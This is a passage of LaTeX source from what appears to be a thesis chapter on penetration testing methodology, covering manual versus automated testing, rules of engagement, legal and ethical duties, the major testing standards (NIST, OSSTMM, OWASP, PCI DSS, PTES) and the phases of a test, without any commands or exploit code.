
\includegraphics[width=0.9\textwidth]{Resources//General/PenTVulnAsComparison.jpg}
\caption{Common Fields and Comparison \label{Comparison}}
\end{figure}

\section{Manual and Automated Penetration Test}
\emph{Manual Penetration Testing} is a very detailed and complex process that requires a complete team of advanced and experienced security professionals, possessing diverse skill-sets, in order to be performed. Testers typically write their own exploits and choose the appropriate tools to master and use. Also, they need to be in control of the all the tasks and be present during the process of testing. Considering those factors, in short-term, manual testing seems to be low-efficient financially and time-wise. On the other hand, it has more benefits on the long term efficiency because of its universality and its ability to adapt in to changes made in the system or setbacks tester's might face.

\emph{Automated Penetration Testing} is considered a simple and cost efficient way of performing all tasks related to penetration testing. A commercial-base automated penetration testing solution is typically developed by a team of security professionals. An organization may also hire a firm or a group of professionals to produce a customized automated test depending on the system's architecture and design or the organization's requirements. In such a test most of the tasks are automated, so it can be less time-consuming than manual penetration testing. The ease of reproducibility of the tests is also a big benefit. Figure \ref{Manual versus Automated} shows a comparison of those two tests focused on the automation's benefits \cite{stefinko2016}.

\newpage
\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/General/ManvsAuto.jpg}
\caption{Manual versus Automated Testing \label{Manual versus Automated}}
\end{figure}

A conclusion on this subject might differ from choosing one or the other type of test, since both have their own unique benefits. As the Department of Computer Science of North Carolina State University concludes in their case study, a combination of both might be the most beneficial choice since each type of test might discover different types of vulnerabilities, offering a better overall security posture in the end \cite{austin2011}.



\section{Rules of Engagement}
Rules of Engagement refer to how each aspect of the test will be conducted. To ensure effectiveness and efficiency of a test, the red team must determine the parameters that define and characterize the Penetration Test to correspond to the requirements and rules set by the organization. Prior to the act of testing, the organization and the testing team agree upon the conditions in which testing is to be performed and the degree of exploitation, if any, that is permitted \cite{pci2015}\cite{nist2008}.

\subsection{Scope Definition}
Defining scope is arguably one of the most important components of a penetration test. The scope of a project specifically defines what is to be tested. Scoping a test is the first step one should take in order to perform a test. The breadth of the test is mostly defined by the organization on which infrastructure the test is being performed and the testers. Commonly, the organizations set the parameters of the procedure, depending on their needs. On the other hand, in case it is up to the red team to decide, testers should consider many factors and features for the test such as the extent of the system to be tested, the prior information base of the test or the technique \cite{nist2008}.

\subsection{Approach}
The focus of a test may vary depending on the system infrastructure. Many tests consist of more than one techniques. Using many different approaches can lead to better understanding of the security of the system and providing more information on it. Some techniques are \cite{ptes2011}:

\begin{itemize}
\item Network Oriented
\item Web Application Focus
\item Wireless Network Testing
\item Physical Penetration Test
\item Social Engineering
\end{itemize}

\subsection{Starting Point and Information}
As described above, a test may be categorized depending on the knowledge the tester has about the computer system, prior to testing. According to the information a PenTester is provided, the test can then be characterized as a Black, Grey or White Box Test \cite{ptes2011}.

\begin{itemize}
\item In a \textbf{white box test}, testers have or are provided with a complete knowledge regarding the target network or system infrastructure. This testing can be considered as a simulation of an attack by any who might be in possession of the system knowledge.
\item In a \textbf{black box test}, testers aren't provided with information regarding the target system architecture. This testing can be considered as a simulation of a real-world attack by an outsider.
\end{itemize}

\subsection{Reach}
Determining which parts of the system are to be tested is an important step to set the rest of the scope. The organization might choose a limited or focused part of the system to examine, and not the overall security of the infrastructure, in order to spot weaknesses on a specific part. Adopting a more focused range of attack offers reduction of the complexity and cost of the test. The time spent for a penetration testing is also directly linked to the scope of the systems to be investigated \cite{ptes2011}. 

\subsection{Aggression}
Tests may be performed with different degree of aggressiveness. Ranging from passive/cautious to aggressive which is the most noticeable attack, the tester must decide to what intensity the vulnerabilities may be exploited since system disruptions might occur. Some example of such aggressive attacks is buffer overflows used on target systems and Denial of Service (DoS) attacks. Such attempts will cause weakening or malfunction of the system, so this factor must be taken into consideration \cite{ptes2011}.


\section{Legal and Ethical Considerations}
A broad term is used when referring to laws and regulations on computer systems and the Internet, called Cyberlaw/IT law. It is one of the newest areas of the legal system because internet technology develops at such a rapid pace. Understanding cyberlaw is of the utmost importance. Cyberlaw does not constitute a separate area of law rather it encompasses aspects of contract, intellectual property, privacy and data protection laws. Intellectual property is an important component and falls into the following categories \cite{whitaker2006}\cite{harris2007}:

\begin{enumerate}
\item Copyright
\item Patents
\item Trademarks/Service Marks
\item Domain Disputes
\item Contracts
\item Privacy
\item Employment
\item Data Retention
\end{enumerate}

Laws differ from country to country but security professionals should be familiar with these laws, since they are expected to work in the construct the laws provide. Also,  any attempt or act of hacking outside workspace is illegal and immoral. Even though penetration testers might have significant knowledge on cybersecurity, using them without permission and outside of their workspace is not permitted.


Ethical responsibilities are also significantly important in the process of penetration testing. Any client of a penetration testing firm must be convinced that the testers will not attempt any unauthorized access, data theft or any types of attack that isn't allowed by the testing contract, in order for the client to trust the firm and its testers. A tester must not speak or share any of the actions performed or vulnerabilities discovered during the process of penetration testing, considering that these types of information are critical for the security and brand name of the infrastructure. Responsibilities do not stop when the test is done, however. After the test is completed, Confidentiality of the test results must be ensured and in no case those results should be shared to or obtained by a third-party \cite{harris2007}. 



\section{Security Testing Standards and Methodologies}

There are some Open-Source and public methodologies that have been widely accepted and practice among the penetration test. They are used to assist and guide the tester during the process of designing and performing a test. One may be counselled by a Penetration Testing Standard and adjust it in order to fit the test's requirements. Most common among other frameworks are:

\begin{itemize}
\item Information Systems Security Assessment Framework (ISSAF)
\item National Institute of Standards and Technology (NIST 800-115)
\item Open Source Security Testing Methodology Manual (OSSTMM)
\item Open Web Application Security Project Testing Guide (OWASP Testing Guide v4)
\item PCI Penetration Testing Guide (PCI)
\item Penetration Testing Execution Standard (PTES)
\end{itemize}

\subsection{National Institute of Science and Technology}
The National Institute of Science and Technology (NIST) of the U.S. government produced Special Publication 800-115 \textit{Guideline on Network Security Testing} in order to expand and improve upon their previous guide, NIST Special Publication 800-42, \textit{Guideline on Network Security Testing}, which it replaced. This standard addresses and covers network penetration testing methodologies at a high level. The technical guidance presented in this document is as follows \cite{nist2008}:

\begin{itemize}
\item Developing a security testing policy
\item Roles and Responsibilities of assessment
\item Testing Techniques
\item Incident Response
\item Data Handling
\item Risk Analysis
\item Report
\item Post-Test Actions
\end{itemize}

\subsection{Open Source Security Testing Methodology Manual}
\textit{Open Source Security Testing Methodology Manual} (OSSTMM) is a peer-reviewed manual of security testing, analysis and metrics which result in verified facts. These facts provide actionable information that can measurably improve operational security. The overall document is very extensive, covering various kinds of security tests. Although it does not get into depth with specific commands and tools, but is still profoundly valuable. Topics tackled in the OSSTMM include the competitive \textbf{intelligence review} (conducting reconnaissance against the target enterprise), Internet \textbf{security analysis} (finding and acquiring open ports and vulnerabilities in Internet accessible systems), and \textbf{communications security} (addressing vulnerabilities commonly found in PBXs, modems, and fax machines). It also provides a thorough guide for a presentation of metrics on a professional level and correlation of test results in a consistent way. Because of the metrics and the statistical view this document provides, the OSSTMM methodology reduces the occurrence of false positives and false negatives and provides accurate measurement for the security \cite{osstmm2010}.

\subsection{Open Web Application Security Project}
Nowadays, more and more applications become Internet based, so the need to examine the Web application security rises. This is where \textit{OWASP Testing Guide} stands on. This guide is an open-source project that provides a testing framework for http-based applications. It focused on covering the area of web applications and services in depth instead of having a wider and more general scope, targeting more than one area of cyber security.

The breadth of this framework spreads from \textbf{Session Management Testing, Input Validation Testing} and \textbf{Client Side Testing} to \textbf{Configuration}, \textbf{Deployment Management Testing} and \textbf{Business Logic Testing} \cite{owasp2014}.

\subsection{Payment Card Industry Data Security Standard}

The \textit{Payment Card Industry Data Security Standard} (PCI DSS) Penetration Testing guideline provides a very good reference of the penetration testing area while it's not a hands-on technical guideline to introduce testing tools. This guidance focuses on the following \cite{pci2015}.

\begin{itemize}
\item \textbf{Penetration Testing Components.} Comprehension of the diverse segments that make up a properly designed penetration test and how this contrasts from a vulnerability scan.
\item \textbf{Qualifications of a Penetration Tester.} Deciding the capabilities of a tester.
\item \textbf{Penetration Testing Methodologies.} Accurate data associated with the three primary parts of a penetration test: 
\begin{enumerate}
\item pre-engagement
\item engagement
\item post-engagement
\end{enumerate}
\item \textbf{Penetration Testing Reporting Guidelines.} Assistance for building up a comprehensive penetration test that incorporates all the necessary content and properly defining risk.
\end{itemize}

\subsection{Penetration Testing Execution Standard}
\textit{Penetration Testing Execution Standard} (PTES) covers a wide spectrum of the process, from the initial communication and reasoning behind a PenTest, through the intelligence gathering and threat modeling phases where testers are working behind the scenes in order to get a better understanding of the tested organization, through vulnerability research, exploitation and post exploitation, where the technical security expertise of the testers come to play and combine with the business understanding of the engagement, and finally to the reporting, which captures the entire process, in a manner that makes sense to the customer and provides the most value to it \cite{ptes2011}.
PTES defines penetration testing as 7 phases:
\begin{enumerate}
\item Pre-engagement Interactions
\item Intelligence Gathering
\item Threat Modeling
\item Vulnerability Analysis
\item Exploitation
\item Post Exploitation
\item Reporting
\end{enumerate}

\section{Composition of a Test}
As every process, penetration testing can be broken down in to a series of rules and steps. Those steps set the methodology for performing a test. This methodology gives a practical source of documentation for formalizing any uniquely designed penetration test plan. It is the plan that the tester is going to follow. There are different penetration testing methodologies that one can choose from and there is no such thing as "the right methodology". The selection of the proper methodology must be precise, careful and fit the requirements of the penetration test as much as possible \cite{nist2008}. 

Before deciding on the methodology, as mentioned before, setting the scope and the rules of engagement is crucial. This first step will be the breaking point in order to correctly decide on the proper penetration testing methodology that satisfies the requirements the most and adjust it according to the scope that was decided on.

\begin{description}
\item[Planning] is the starting point of a penetration test. It is the initiation of a test since the rules are being determined and the testing goals are set . It is the foundation for a successful penetration test.
\item[Discovery] consists of two parts. First part is the beginning of the actual testing and covers  the act of gathering preliminary data or intelligence on the target. The data is gathered in order to better plan for your attack. This part can be performed actively (meaning that you are directly touching the target) or passively (meaning that your recon is being performed through an intermediary). Such examples are network host name and IP address information or employee names  and contact information. The second part of the discovery phase requires the application of technical tools to gather further intelligence on your target, but in this case, the intel being sought is more commonly about the systems that they have in place. A good example would be the use of a vulnerability scanner on a target network. In a more broad term, this part of discovery may also be called as "Vulnerability Analysis".
\item[Attack] Third phase, attacking, requires taking control of one or more devices by exploiting previously identified potential vulnerabilities  in order to either extract data from the target, or to use that device to then launch attacks on other targets. Penetration testers must consider that taking the steps involved in being able to be persistently within the target environment in order to gather as much data as possible, is crucial and stealth during this stage is important.
\item[Reporting] is the last phase of the activity. This phase can occur in parallel to the other three phases or at the end of the Attack. The final report must be prepared keeping in mind both management as well as technical aspects, detailing all the findings with proper graphs, figures, etc. so as to convey a proper presentation of the vulnerabilities and it's impact to the business of the target organization.
\end{description}

Often, a tester will not have the maximum level of potential access to a system and, as a result, he might discover more vulnerabilities than the ones on which the test was planned upon, or any change in the state of the targeted system. If this occurs while performing an attack, additional analysis and examination of the system are required. Thus, the phase of discovery and attack are mutually connected in order to breakdown the additional data found and reevaluate the attacking plan the tester is going to follow.

\begin{figure}[H]
\centering
